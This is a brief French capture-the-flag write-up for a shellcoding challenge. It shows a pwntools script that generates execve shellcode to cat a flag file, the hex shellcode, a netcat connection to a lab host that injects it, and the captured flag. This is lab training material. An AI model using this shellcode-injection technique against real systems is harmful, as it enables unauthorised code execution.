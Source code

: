
### Question Shellcoding Tools

##### Code pour générer le shellcode via le syscall execve

- generate_shellcode.py
```python
#!/bin/python3

from pwn import *
context(os="linux", arch="amd64", log_level="error")
path = '/bin/cat'
argv = ['/bin/cat', '/flag.txt']
sc = shellcraft.amd64.linux.execve(path, argv)
print(asm(sc).hex())
```

##### Lancer le code

`python3 generate_shellcode.py`

>6a01fe0c2448b82f62696e2f636174504889e768797501018134240101010148b801010101010101015048b8012e676d60662f754831042448b82f62696e2f6361745031f6566a115e4801e6566a105e4801e6564889e631d26a3b580f05

##### Se connecter et injecter le shellcode

nc 94.237.55.163 30727

6a01fe0c2448b82f62696e2f636174504889e768797501018134240101010148b801010101010101015048b8012e676d60662f754831042448b82f62696e2f6361745031f6566a115e4801e6566a105e4801e6564889e631d26a3b580f05

>HTB{r3m073_5h3llc0d3_3x3cu710n}

